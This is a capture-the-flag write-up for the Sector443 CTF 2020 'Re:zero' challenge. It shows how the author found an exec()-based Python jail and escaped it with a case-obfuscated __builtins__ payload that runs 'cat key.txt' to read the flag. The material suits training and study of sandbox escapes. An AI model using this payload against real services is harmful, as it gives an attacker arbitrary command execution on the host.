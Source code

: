 # Sector443 CTF 2020: Pwn - Re:zero (150 Points)

## Description:

_I forgot to take a screenshot of the description... woops! xD_ 


Anyways, I remember that the description only provided the name of the file `key.txt` that had the flag, it didn't provide any sort of hint so... Moving on!

## Recon and Analysis:

Connecting to the server given in the descript, which was `172.105.53.6 32780` we get the following, cool response. 

```
kali@kali:~/Documents/sector443/re:zero$ nc 172.105.53.6 32780
__        __   _                            _        
\ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___  
 \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \ 
  \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) |
   \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/ 
                                                     
 ____                   _                                   __ 
/ ___|  __ _ _ __   ___| |_ _   _  __ _ _ __ _   _    ___  / _|
\___ \ / _` | '_ \ / __| __| | | |/ _` | '__| | | |  / _ \| |_ 
 ___) | (_| | | | | (__| |_| |_| | (_| | |  | |_| | | (_) |  _|
|____/ \__,_|_| |_|\___|\__|\__,_|\__,_|_|   \__, |  \___/|_|  
                                             |___/             
 _  __                         _     _       _ _ 
| |/ /_ __ ___ _ __ ___   __ _| | __| |_   _| | |
| ' /| '__/ _ \ '_ ` _ \ / _` | |/ _` | | | | | |
| . \| | |  __/ | | | | | (_| | | (_| | |_| |_|_|
|_|\_\_|  \___|_| |_| |_|\__,_|_|\__,_|\__, (_|_)
                                       |___/     

Try breaking my barrier. You'll find a key to save Emilia inside Roswaal's mansion
>>>
```

Trying out random stuff like `!@#$!%^@"` just to get it to crash, when it crashes it spills out an error that contains the directory and the script name with was `main.py`.


Also, the error was in `exec(string)` of the python script. So I tried to read the content of `key.txt` by supplying `'cat key.txt'` (notice the quotes to supply `exec()` a `string`) but the program terminates without giving me anything.


Next thing to do is search on how to escape this statement, to execute arbitrary code on the machine _Muhahaha!_


## Solution

After one google search on "how to escape python jails" lead me to [this](https://anee.me/escaping-python-jails-849c65cf306e?gi=6a471ceaec7e) article.

Reading it carefully, I tried applying the same technique as the article using `__builtins__` module, and the final payload worked:

```
Try breaking my barrier. You'll find a key to save Emilia inside Roswaal's mansion
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat key.txt')

S443{y0u_l1k3_@n1m3_r1gh7}
```
